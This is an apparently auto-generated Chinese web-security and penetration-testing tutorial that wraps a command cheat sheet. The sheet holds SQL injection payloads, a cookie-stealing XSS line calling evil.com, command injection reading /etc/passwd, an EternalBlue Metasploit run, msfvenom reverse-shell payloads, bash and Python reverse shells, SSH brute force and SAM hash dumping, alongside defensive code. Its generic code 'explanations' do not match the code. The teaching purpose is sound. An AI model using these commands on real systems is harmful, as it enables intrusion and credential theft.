


## 1. 学习目标（Bloom 分类）

本节按照布鲁姆教育目标分类学组织学习路径。本文主题为《Web安全与渗透测试》，属于 网络安全 模块，读者可以根据自身阶段选择阅读深度。

记忆层面：能够准确复述本文的核心概念、术语与基本语法或操作步骤，并能够在提问或检索时快速定位对应知识点。能够说出 网络安全 的核心概念、组件与标准流程。

理解层面：能够用自己的语言解释核心原理与工作机制，说明概念之间的因果关系，而不是机械记忆结论。能够解释 网络安全 的工作原理与关键机制。

应用层面：能够在真实项目或练习场景中运用本文知识解决具体问题，写出正确且可维护的实现。能够执行 网络安全 相关的标准操作与配置。

分析层面：能够拆解复杂问题，比较本文主题与相邻概念的异同，识别边界条件与例外情况。能够分析 网络安全 方案在可靠性、成本与性能上的权衡。

评价层面：能够根据约束条件（性能、可读性、安全、成本）评价不同方案的优劣，做出有依据的技术决策。能够评价 网络安全 中的技术选型。

创造层面：能够把本文知识与其他模块知识组合，设计出新的解决方案或可复用的工程模式。能够设计基于 网络安全 的完整解决方案。

通过本节学习，读者应当能够把《Web安全与渗透测试》纳入自己的知识网络，并与 网络安全 模块的其他主题（加密、认证、Web 安全、渗透测试、应急响应）建立关联。

## 2. 历史动机与发展脉络

《Web安全与渗透测试》是 网络安全 领域的重要主题。要真正理解它，需要先了解它解决的问题与演进过程。

网络安全伴随计算机发展而来：1970 年代漏洞概念出现，1988 年 Morris 蠕虫推动 CERT 成立；现代安全已从“边界防御”转向“零信任”。
核心框架：CIA 三元组（机密性、完整性、可用性）；STRIDE 威胁建模；OWASP Top 10 是 Web 安全事实清单。
现代主题：零信任架构、供应链安全（SBOM）、云安全、DevSecOps、AI 安全；合规（等保、GDPR）驱动企业实践。

回到本文主题：Web安全与渗透测试 的提出与成熟，正是上述技术背景下的必然产物。早期实现往往以简单可用为目标，随着工程规模扩大，社区逐渐沉淀出标准做法与最佳实践；理解这一脉络，可以帮助读者判断“为什么文档中的推荐写法是现在这个样子”，也能在遇到历史遗留代码时准确识别其设计年代与取舍。


## 3. 形式化定义与核心概念精讲

本节把《Web安全与渗透测试》涉及的核心概念以“定义 + 讲解”的形式展开。读者应把定义当作工具，把讲解当作理解路径；两者结合才能形成可迁移的知识。

密码学基础：对称加密（AES）、非对称（RSA/ECC）、哈希（SHA-2/3）、HMAC；密码学是加密、签名与认证的地基。
认证与授权：口令哈希（bcrypt/argon2）、MFA、Session/JWT、OAuth 2.0/OIDC、RBAC/ABAC。
Web 攻击面：注入（SQL/XSS）、CSRF、SSRF、文件上传、反序列化；防御（输入校验、输出编码、CSP、SameSite）。

### 3.1 原文章节逐一精讲

原文档把主题拆分为 19 个小节，下面按顺序给出每一节的导读讲解，随后保留原文细节供精读。

#### 原文精读（完整保留）

# Cybersecurity 渗透测试命令综合

> **符号约定**:`< >` 必填参数 | `[ ]` 可选参数

---

#### 1. OWASP Top 10

##### 1.1 2021 版 OWASP Top 10

| 排名 | 风险                   | 说明                             |
| :--- | :--------------------- | :------------------------------- |
| A01  | 权限控制失效           | 越权访问、IDOR、CORS 配置错误    |
| A02  | 加密机制失效           | 弱密码、明文存储、不安全协议     |
| A03  | 注入                   | SQL/NoSQL/OS/LDAP 注入           |
| A04  | 不安全设计             | 缺乏安全架构、威胁建模不足       |
| A05  | 安全配置错误           | 默认配置、目录遍历、错误信息泄露 |
| A06  | 易受攻击和过时的组件   | 使用已知漏洞的第三方库           |
| A07  | 身份识别和认证失败     | 弱密码策略、会话管理缺陷         |
| A08  | 软件和数据完整性失败   | 不安全的 CI/CD、反序列化漏洞     |
| A09  | 安全日志和监控失效     | 日志不足、告警缺失               |
| A10  | 服务器端请求伪造(SSRF) | 内网探测、云元数据泄露           |

#### 2. SQL 注入

##### 2.1 注入类型

| 类型     | 特点                     | 检测难度 |
| :------- | :----------------------- | :------- |
| 联合查询 | UNION SELECT 拼接        | 低       |
| 报错注入 | 利用数据库报错信息回显   | 低       |
| 布尔盲注 | 通过真/假响应判断        | 中       |
| 时间盲注 | 通过响应延迟判断         | 高       |
| 堆叠查询 | 多语句执行（;分隔）      | 低       |
| 二次注入 | 数据存储后再次使用时触发 | 高       |

##### 2.2 注入示例与防御

```sql
-- 联合查询注入
-- 原始查询: SELECT * FROM users WHERE id = '$id'
-- 注入 payload: ' UNION SELECT 1,username,password FROM users --
SELECT * FROM users WHERE id = '' UNION SELECT 1,username,password FROM users --'

-- 布尔盲注
-- payload: ' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a' --
-- 逐字符爆破密码

-- 时间盲注
-- payload: ' AND IF(SUBSTRING(password,1,1)='a', SLEEP(3), 0) --
```

**防御措施**：

```python
#  不安全：字符串拼接
query = f"SELECT * FROM users WHERE id = '{user_id}'"

#  安全：参数化查询
import sqlite3
conn = sqlite3.connect('app.db')
cursor = conn.cursor()
cursor.execute("SELECT * FROM users WHERE id = ?", (user_id,))

#  安全：ORM 框架
# SQLAlchemy
user = session.query(User).filter(User.id == user_id).first()

#  安全：输入验证
import re
if not re.match(r'^\d+$', user_id):
    raise ValueError("Invalid user ID")
```

#### 3. XSS 跨站脚本

##### 3.1 XSS 类型

| 类型       | 注入位置       | 持久性 | 危害 |
| :--------- | :------------- | :----- | :--- |
| 反射型 XSS | URL 参数       | 否     | 中   |
| 存储型 XSS | 服务器存储     | 是     | 高   |
| DOM 型 XSS | 客户端 JS 渲染 | 否     | 中   |

##### 3.2 XSS 攻击示例

```html
<!-- 反射型 XSS -->
<!-- URL: https://example.com/search?q=<script>document.location='https://evil.com/steal?c='+document.cookie</script> -->

<!-- 存储型 XSS -->
<!-- 留言板提交:  -->

<!-- DOM 型 XSS -->
<!-- 页面 JS: document.getElementById('output').innerHTML = location.hash.slice(1) -->
<!-- URL: https://example.com/page# -->
```

##### 3.3 XSS 防御

```python
# 后端输出编码
from markupsafe import escape

@app.route('/search')
def search():
    query = request.args.get('q', '')
    safe_query = escape(query)  # HTML 实体编码
    return f'<p>搜索结果: {safe_query}</p>'
```

```javascript
// 前端防御
// 1. 使用 textContent 代替 innerHTML
element.textContent = userInput;

// 2. DOMPurify 清洗 HTML
import DOMPurify from 'dompurify';
element.innerHTML = DOMPurify.sanitize(userInput);

// 3. Content Security Policy
// HTTP 响应头
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'
```

```python
# Flask CSP 配置
from flask_talisman import Talisman
app = Flask(__name__)
Talisman(app, content_security_policy={
    'default-src': "'self'",
    'script-src': "'self'",
    'style-src': "'self' 'unsafe-inline'"
})
```

#### 4. CSRF 跨站请求伪造

##### 4.1 攻击原理

```
1. 用户登录 bank.com，获取会话 Cookie
2. 用户访问恶意网站 evil.com
3. evil.com 页面包含:
   
4. 浏览器自动携带 bank.com 的 Cookie 发送请求
5. bank.com 服务器认为是合法操作
```

##### 4.2 CSRF 防御

```python
# Flask-WTF CSRF Token
from flask_wtf.csrf import CSRFProtect

app = Flask(__name__)
app.config['SECRET_KEY'] = 'your-secret-key'
csrf = CSRFProtect(app)

# 模板中
# <form method="POST">
#   <input type="hidden" name="csrf_token" value="{{ csrf_token() }}">
#   ...
# </form>
```

```python
# SameSite Cookie 属性
app.config.update(
    SESSION_COOKIE_SECURE=True,     # 仅 HTTPS
    SESSION_COOKIE_HTTPONLY=True,    # JS 不可读
    SESSION_COOKIE_SAMESITE='Lax'   # 限制跨站发送
)
```

```python
# 验证 Origin/Referer 头
from flask import request, abort

@app.before_request
def check_origin():
    if request.method in ('POST', 'PUT', 'DELETE'):
        origin = request.headers.get('Origin', '')
        allowed = ['https://www.fandex.local', 'https://fandex.local']
        if origin not in allowed:
            abort(403)
```

#### 5. 文件上传漏洞

##### 5.1 常见绕过方式

| 绕过方式       | 方法                           |
| :------------- | :----------------------------- |
| 后缀名绕过     | .php5、.phtml、.php.jpg        |
| MIME 类型绕过  | 修改 Content-Type: image/jpeg  |
| 大小写绕过     | .PhP、.pHp                     |
| 双写绕过       | .pphphp（过滤 php 后剩余 php） |
| %00 截断       | shell.php%00.jpg               |
| .htaccess 上传 | 自定义解析规则                 |

##### 5.2 安全上传实现

```python
import os
import uuid
from pathlib import Path
from flask import request, jsonify

ALLOWED_EXTENSIONS = {'jpg', 'jpeg', 'png', 'gif', 'pdf'}
MAX_FILE_SIZE = 5 * 1024 * 1024  # 5MB

def allowed_file(filename):
    ext = filename.rsplit('.', 1)[-1].lower()
    return ext in ALLOWED_EXTENSIONS

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file'}), 400

    file = request.files['file']

    # 1. 检查文件扩展名
    if not allowed_file(file.filename):
        return jsonify({'error': 'File type not allowed'}), 400

    # 2. 检查文件大小
    file.seek(0, os.SEEK_END)
    size = file.tell()
    file.seek(0)
    if size > MAX_FILE_SIZE:
        return jsonify({'error': 'File too large'}), 400

    # 3. 重命名文件（防止路径穿越）
    ext = file.filename.rsplit('.', 1)[-1].lower()
    safe_name = f"{uuid.uuid4().hex}.{ext}"

    # 4. 保存到 Web 根目录外
    upload_dir = '/data/uploads'
    file.save(os.path.join(upload_dir, safe_name))

    return jsonify({'filename': safe_name}), 200
```

#### 6. 命令执行漏洞

##### 6.1 命令注入

```python
#  不安全：直接拼接用户输入
import os
def ping_host(host):
    os.system(f"ping -c 3 {host}")  # 危险！
    # 攻击: host = "127.0.0.1; cat /etc/passwd"

#  安全：使用 subprocess + 参数列表
import subprocess
def ping_host_safe(host):
    # 输入验证
    if not re.match(r'^\d{1,3}(\.\d{1,3}){3}$', host):
        raise ValueError("Invalid IP address")
    result = subprocess.run(
        ['ping', '-c', '3', host],
        capture_output=True, text=True, timeout=10
    )
    return result.stdout
```

#### 7. 渗透测试流程

##### 7.1 标准流程

```
1. 前期交互 → 确定范围、规则、目标
2. 信息收集 → 被动/主动侦察
3. 威胁建模 → 识别攻击面和攻击路径
4. 漏洞分析 → 扫描、验证、分类
5. 渗透攻击 → 利用漏洞获取访问权限
6. 后渗透   → 权限提升、横向移动、数据获取
7. 报告撰写 → 发现、风险评级、修复建议
```

##### 7.2 信息收集

```bash
# 被动信息收集
whois example.com                     # 域名注册信息
dig example.com ANY                   # DNS 记录
theHarvester -d example.com -b all    # 邮箱/子域名收集

# 主动信息收集
nmap -sn 192.168.1.0/24              # 主机发现
nmap -sV -sC -p- 192.168.1.1        # 全端口服务识别
nmap -O 192.168.1.1                  # 操作系统识别
nmap --script vuln 192.168.1.1       # 漏洞扫描脚本
```

#### 8. Nmap 端口扫描

##### 8.1 扫描类型

| 参数 | 扫描类型       | 特点                   | 隐蔽性 |
| :--- | :------------- | :--------------------- | :----- |
| -sS  | SYN 半开扫描   | 不完成三次握手，速度快 | 高     |
| -sT  | TCP 全连接扫描 | 完成三次握手           | 低     |
| -sU  | UDP 扫描       | 扫描 UDP 端口          | 中     |
| -sA  | ACK 扫描       | 检测防火墙规则         | 高     |
| -sF  | FIN 扫描       | FIN 包探测             | 高     |

##### 8.2 常用命令

```bash
# 快速扫描常用端口
nmap -F 192.168.1.0/24

# 全端口扫描 + 服务版本 + 默认脚本
nmap -sV -sC -p- -T4 192.168.1.1

# 指定端口扫描
nmap -p 22,80,443,3306,8080 192.168.1.1

# 操作系统检测
nmap -O --osscan-guess 192.168.1.1

# 漏洞扫描
nmap --script=vulscan/vulscan.nse 192.168.1.1

# 绕过防火墙
nmap -f -D RND:10 --data-length 32 192.168.1.1

# 输出结果
nmap -sV -oX scan_results.xml 192.168.1.0/24
```

#### 9. Burp Suite 漏洞扫描

##### 9.1 核心模块

| 模块     | 功能                      |
| :------- | :------------------------ |
| Proxy    | 拦截和修改 HTTP 请求/响应 |
| Scanner  | 自动化漏洞扫描            |
| Intruder | 自定义攻击载荷暴力破解    |
| Repeater | 手动重放和修改请求        |
| Decoder  | 编码/解码工具             |
| Comparer | 请求/响应对比             |

##### 9.2 常用工作流

```
1. 配置浏览器代理 → 127.0.0.1:8080
2. 开启 Intercept → 捕获请求
3. 发送到 Repeater → 手动测试参数
4. 发送到 Intruder → 标记攻击点，设置 Payload
5. 运行 Scanner → 自动扫描漏洞
6. 分析结果 → 验证漏洞、编写报告
```

##### 9.3 Intruder 暴力破解示例

```
攻击类型: Sniper（单参数）/ Pitchfork（多参数并行）/ Cluster Bomb（多参数组合）

目标请求:
POST /login HTTP/1.1
username=§admin§&password=§password§

Payload 设置:
- username: 常用用户名字典
- password: 常用密码字典

Grep-Match:
- 匹配 "Login successful" → 成功
- 匹配 "Invalid credentials" → 失败
```
#### 信息收集

**基本写法:DNS 枚举**
`dig any <域名>`
```bash
# 查询域名所有 DNS 记录
dig any example.com
```

**基本写法:子域名枚举**
`subfinder -d <域名>`
```bash
# 使用 subfinder 枚举子域名
subfinder -d example.com -o subdomains.txt
```

**基本写法:DNS 区域传送测试**
`dig axfr @<DNS服务器> <域名>`
```bash
# 测试 DNS 区域传送是否允许
dig axfr @ns1.example.com example.com
```

**基本写法:Whois 查询**
`whois <域名>`
```bash
# 查询域名注册信息
whois example.com
```

**基本写法:搜索引擎语法**
`site:<域名> intitle:"index of"`
```bash
# 使用 Google Hacking 查找敏感信息
site:example.com intitle:"index of" -inurl:(html|php)
```

---

#### 端口扫描

**基本写法:nmap 基础扫描**
`nmap -sV <目标>`
```bash
# 扫描目标开放端口与服务版本
nmap -sV 192.168.1.10
```

**基本写法:快速端口扫描**
`nmap -T4 -F <目标>`
```bash
# 快速扫描常用端口
nmap -T4 -F 192.168.1.10
```

**基本写法:全端口扫描**
`nmap -p- -T4 <目标>`
```bash
# 扫描所有 65535 个端口
nmap -p- -T4 192.168.1.10
```

**基本写法:UDP 端口扫描**
`nmap -sU --top-ports <数量> <目标>`
```bash
# 扫描常用 UDP 端口
sudo nmap -sU --top-ports 100 192.168.1.10
```

**基本写法:操作系统识别**
`nmap -O <目标>`
```bash
# 识别目标操作系统
sudo nmap -O 192.168.1.10
```

**基本写法:漏洞脚本扫描**
`nmap --script vuln <目标>`
```bash
# 使用 nmap 漏洞脚本扫描
nmap --script vuln 192.168.1.10
```

---

#### 服务枚举

**基本写法:SMB 枚举**
`enum4linux <目标>`
```bash
# 枚举 SMB 共享与用户信息
enum4linux -a 192.168.1.10
```

**基本写法:NFS 枚举**
`showmount -e <目标>`
```bash
# 查看 NFS 导出的目录
showmount -e 192.168.1.10
```

**基本写法:SSH 枚举**
`nmap --script ssh-* -p 22 <目标>`
```bash
# 使用 nmap SSH 脚本枚举
nmap --script ssh-* -p 22 192.168.1.10
```

**基本写法:SNMP 枚举**
`snmpwalk -c public -v1 <目标>`
```bash
# 枚举 SNMP 信息
snmpwalk -c public -v1 192.168.1.10
```

**基本写法:LDAP 枚举**
`ldapsearch -x -H ldap://<目标> -b <基准DN>`
```bash
# 枚举 LDAP 目录信息
ldapsearch -x -H ldap://192.168.1.10 -b "dc=example,dc=com"
```

---

#### Web 应用测试

**基本写法:目录爆破**
`gobuster dir -u <URL> -w <字典>`
```bash
# 使用 gobuster 爆破 Web 目录
gobuster dir -u https://example.com -w /usr/share/wordlists/dirb/common.txt
```

**基本写法:子域名爆破**
`gobuster dns -d <域名> -w <字典>`
```bash
# 爆破子域名
gobuster dns -d example.com -w subdomains.txt
```

**基本写法:Nikto 漏洞扫描**
`nikto -h <URL>`
```bash
# 使用 Nikto 扫描 Web 漏洞
nikto -h https://example.com
```

**基本写法:SQL 注入测试**
`sqlmap -u <URL> --dbs`
```bash
# 使用 sqlmap 测试 SQL 注入
sqlmap -u "https://example.com/page?id=1" --dbs
```

**基本写法:XSS 检测**
`dalfox url <URL>`
```bash
# 使用 dalfox 检测 XSS 漏洞
dalfox url "https://example.com/search?q=test"
```

**基本写法:WordPress 扫描**
`wpscan --url <URL>`
```bash
# 扫描 WordPress 站点
wpscan --url https://example.com --enumerate u
```

---

#### 漏洞利用

**基本写法:搜索漏洞**
`searchsploit <关键字>`
```bash
# 在 exploitdb 中搜索漏洞利用
searchsploit apache 2.4
```

**基本写法:查看漏洞详情**
`searchsploit -x <漏洞ID>`
```bash
# 查看漏洞利用代码详情
searchsploit -x 12345
```

**基本写法:复制漏洞利用代码**
`searchsploit -m <漏洞ID>`
```bash
# 复制漏洞利用代码到当前目录
searchsploit -m 12345
```

**基本写法:使用 Metasploit**
`msfconsole -q -x "use <模块>; set RHOSTS <目标>; run"`
```bash
# 使用 Metasploit 利用漏洞
msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS 192.168.1.10; run"
```

**基本写法:生成 Payload**
`msfvenom -p <payload> LHOST=<IP> LPORT=<端口> -f <格式> -o <文件>`
```bash
# 生成反向连接 Payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o payload.exe
```

---

#### 密码破解

**基本写法:使用 hashcat 破解**
`hashcat -m <类型> <哈希> <字典>`
```bash
# 使用 hashcat 破解 MD5 哈希(类型 0)
hashcat -m 0 hash.txt rockyou.txt
```

**基本写法:使用 john 破解**
`john --wordlist=<字典> <哈希文件>`
```bash
# 使用 John the Ripper 破解密码
john --wordlist=rockyou.txt hashes.txt
```

**基本写法:破解 zip 密码**
`john --wordlist=<字典> <zip2john输出>`
```bash
# 破解 ZIP 文件密码
zip2john protected.zip > zip.hash
john --wordlist=rockyou.txt zip.hash
```

**基本写法:在线哈希查询**
`curl "https://hashtoolkit.com/reverse-hash?hash=<哈希>"`
```bash
# 在线查询哈希明文
curl "https://hashtoolkit.com/reverse-hash?hash=098f6bcd4621d373cade4e832627b4f6"
```

**基本写法:SSH 密码爆破**
`hydra -l <用户> -P <字典> ssh://<目标>`
```bash
# 使用 hydra 爆破 SSH
hydra -l root -P passwords.txt ssh://192.168.1.10
```

---

#### 后渗透操作

**基本写法:建立反弹 shell**
`bash -i >& /dev/tcp/<攻击IP>/<端口> 0>&1`
```bash
# 通过 bash 反弹 shell 到攻击机
bash -i >& /dev/tcp/192.168.1.5/4444 0>&1
```

**基本写法:Python 反弹 shell**
`python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("<IP>",<端口>));[os.dup2(s.fileno(),f) for f in (0,1,2)];subprocess.call(["/bin/sh"])'`
```bash
# Python 反弹 shell
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("192.168.1.5",4444));[os.dup2(s.fileno(),f) for f in (0,1,2)];subprocess.call(["/bin/sh"])'
```

**基本写法:升级交互式 shell**
`python3 -c 'import pty;pty.spawn("/bin/bash")'`
```bash
# 升级为交互式 shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

**基本写法:端口转发**
`ssh -L <本地端口>:<目标>:<目标端口> <用户>@<跳板>`
```bash
# SSH 本地端口转发
ssh -L 8080:192.168.2.10:80 user@192.168.1.10
```

**基本写法:动态端口转发**
`ssh -D <本地端口> <用户>@<跳板>`
```bash
# SSH 动态端口转发建立 SOCKS 代理
ssh -D 1080 user@192.168.1.10
```

---

#### 权限提升

**基本写法:查找 SUID 文件**
`find / -perm -4000 -type f 2>/dev/null`
```bash
# 查找 SUID 权限文件用于提权
find / -perm -4000 -type f 2>/dev/null
```

**基本写法:查看 sudo 权限**
`sudo -l`
```bash
# 查看当前用户 sudo 权限
sudo -l
```

**基本写法:使用 LinPEAS 枚举**
`./linpeas.sh`
```bash
# 运行 LinPEAS 自动枚举提权路径
./linpeas.sh | grep -i "suid\|sudo\|writable"
```

**基本写法:查看内核版本**
`uname -r`
```bash
# 查看内核版本查找内核漏洞
uname -r
```

**基本写法:查看计划任务**
`cat /etc/crontab`
```bash
# 查看系统计划任务寻找提权点
cat /etc/crontab
```

---

#### 内网渗透

**基本写法:内网存活主机探测**
`nmap -sn <网段>`
```bash
# Ping 扫描探测存活主机
nmap -sn 192.168.1.0/24
```

**基本写法:使用 Proxychains**
`proxychains <命令>`
```bash
# 通过 SOCKS 代理执行命令
proxychains nmap -sT -Pn 192.168.2.0/24
```

**基本写法:搭建 SOCKS 代理**
`ssh -D <端口> <用户>@<跳板> -fN`
```bash
# 使用 SSH 建立后台 SOCKS 代理
ssh -D 1080 user@192.168.1.10 -fN
```

**基本写法:内网端口扫描**
`nmap -sT -Pn -n --top-ports 100 <网段>`
```bash
# 通过代理扫描内网常用端口
proxychains nmap -sT -Pn -n --top-ports 100 192.168.2.0/24
```

**基本写法:Windows 凭据收集**
`secretsdump.py -local <文件>`
```bash
# 使用 impacket 导出 SAM 哈希
secretsdump.py -sam SAM -system SYSTEM LOCAL
```

---

#### 报告生成

**基本写法:生成扫描报告**
`nmap -sV <目标> -oX <输出文件>`
```bash
# 输出 XML 格式扫描报告
nmap -sV 192.168.1.10 -oX scan_report.xml
```

**基本写法:转换为 HTML 报告**
`xsltproc <XML文件> -o <HTML文件>`
```bash
# 将 nmap XML 报告转为 HTML
xsltproc scan_report.xml -o report.html
```

**基本写法:整合多种扫描结果**
`python3 -c "import xml.etree.ElementTree as ET; ..."`
```bash
# 解析多个工具的扫描结果整合报告
python3 -c "
import xml.etree.ElementTree as ET
tree = ET.parse('scan_report.xml')
for host in tree.findall('host'):
    print(host.find('address').get('addr'))
"
```

**基本写法:生成渗透测试报告**
`pandoc <输入> -o <输出>`
```bash
# 使用 pandoc 生成 PDF 报告
pandoc report.md -o pentest_report.pdf --pdf-engine=xelatex
```

**基本写法:导出漏洞清单**
`grep -E "CVE|OSVDB" <报告> > <漏洞清单>`
```bash
# 提取所有漏洞编号
grep -E "CVE-[0-9]+-[0-9]+|OSVDB" scan_report.txt > vulnerabilities.txt
```


### 3.2 概念关系图

下面用 Mermaid 图表达本文核心概念之间的关系，帮助读者建立整体图景：



图中展示的是本文知识的结构化关系：核心概念是入口，原理机制解释“为什么”，代码实践演示“怎么做”，工程应用回答“何时用”。读者学习时可以把每个小节的内容挂接到对应节点上。

## 4. 理论推导与原理解析

本节深入《Web安全与渗透测试》背后的原理。理论部分不求面面俱到，而是聚焦“能解释现象、能指导实践”的关键推导。

密码学基础：对称加密（AES）、非对称（RSA/ECC）、哈希（SHA-2/3）、HMAC；密码学是加密、签名与认证的地基。
认证与授权：口令哈希（bcrypt/argon2）、MFA、Session/JWT、OAuth 2.0/OIDC、RBAC/ABAC。
Web 攻击面：注入（SQL/XSS）、CSRF、SSRF、文件上传、反序列化；防御（输入校验、输出编码、CSP、SameSite）。
渗透测试流程：信息收集 -> 漏洞扫描 -> 利用 -> 提权 -> 横向 -> 报告；工具（Nmap、Burp、Metasploit）。

需要强调的是，理论推导与工程实践之间存在翻译层：理论给出的是理想化模型与边界条件，工程代码则必须处理真实环境中的例外。读者在学习时应先掌握理论的“标准情形”，再通过陷阱章节了解“非标准情形”。

## 5. 代码示例与逐行讲解

本节把原文中的代码示例系统整理，并为每个示例补充用途说明与讲解。读者不应只浏览代码，而应逐段对照讲解理解设计意图。

### 5.1 示例：2.2 注入示例与防御

该示例来自原文《2.2 注入示例与防御》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```sql
-- 联合查询注入
-- 原始查询: SELECT * FROM users WHERE id = '$id'
-- 注入 payload: ' UNION SELECT 1,username,password FROM users --
SELECT * FROM users WHERE id = '' UNION SELECT 1,username,password FROM users --'

-- 布尔盲注
-- payload: ' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a' --
-- 逐字符爆破密码

-- 时间盲注
-- payload: ' AND IF(SUBSTRING(password,1,1)='a', SLEEP(3), 0) --
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 9 行有效代码，包含 2 类关键结构（SELECT、FROM）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.2 示例：2.2 注入示例与防御

该示例来自原文《2.2 注入示例与防御》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```python
#  不安全：字符串拼接
query = f"SELECT * FROM users WHERE id = '{user_id}'"

#  安全：参数化查询
import sqlite3
conn = sqlite3.connect('app.db')
cursor = conn.cursor()
cursor.execute("SELECT * FROM users WHERE id = ?", (user_id,))

#  安全：ORM 框架
# SQLAlchemy
user = session.query(User).filter(User.id == user_id).first()

#  安全：输入验证
import re
if not re.match(r'^\d+$', user_id):
    raise ValueError("Invalid user ID")
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 14 行有效代码，包含 4 类关键结构（import、if、SELECT、FROM）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.3 示例：3.2 XSS 攻击示例

该示例来自原文《3.2 XSS 攻击示例》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```html
<!-- 反射型 XSS -->
<!-- URL: https://example.com/search?q=<script>document.location='https://evil.com/steal?c='+document.cookie</script> -->

<!-- 存储型 XSS -->
<!-- 留言板提交:  -->

<!-- DOM 型 XSS -->
<!-- 页面 JS: document.getElementById('output').innerHTML = location.hash.slice(1) -->
<!-- URL: https://example.com/page# -->
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 7 行有效代码，结构以数据或配置为主。阅读时应关注：数据字段的含义、配置项的作用，以及它们与运行行为的对应关系。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.4 示例：3.3 XSS 防御

该示例来自原文《3.3 XSS 防御》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```python
# 后端输出编码
from markupsafe import escape

@app.route('/search')
def search():
    query = request.args.get('q', '')
    safe_query = escape(query)  # HTML 实体编码
    return f'<p>搜索结果: {safe_query}</p>'
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 7 行有效代码，包含 4 类关键结构（def、import、from、return）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.5 示例：3.3 XSS 防御

该示例来自原文《3.3 XSS 防御》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```javascript
// 前端防御
// 1. 使用 textContent 代替 innerHTML
element.textContent = userInput;

// 2. DOMPurify 清洗 HTML
import DOMPurify from 'dompurify';
element.innerHTML = DOMPurify.sanitize(userInput);

// 3. Content Security Policy
// HTTP 响应头
Content-Security-Policy: default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'
```

讲解：这段代码演示了本节核心知识点。代码中的关键操作可以归纳为三步：准备（定义或初始化）、执行（核心逻辑）、收尾（释放资源或返回结果）。实际项目中，这三步往往被封装为函数或类，以提升复用性与可测试性。

关键点分析：

该示例共 9 行有效代码，包含 2 类关键结构（import、from）。其中：

- 入口与初始化部分负责建立上下文，对应实际项目中的启动或装配逻辑；
- 核心逻辑部分体现本文主题的主要操作，是阅读时最需要对照讲解理解的部分；
- 输出或返回部分把结果交给调用方，注意其类型与边界条件。

进阶思考路径：先尝试修改参数观察行为变化，再把示例中的模式迁移到自己的项目中；每次修改都记录预期与实测差异，这是把示例转化为能力的最快方式。

### 5.6 示例：3.3 XSS 防御

该示例来自原文《3.3 XSS 防御》小节，用于演示Web安全与渗透测试相关操作。阅读时请先看代码结构，再看其后的讲解。

```python
# Flask CSP 配置
from flask_talisman import Talisman
app = Flask(__name__)
Talisman(app, content_security_policy={
    'default-src': "'self'",
    'script-src': "'self'",
    'style-src': "'self' 'unsafe-inline'"
})
```

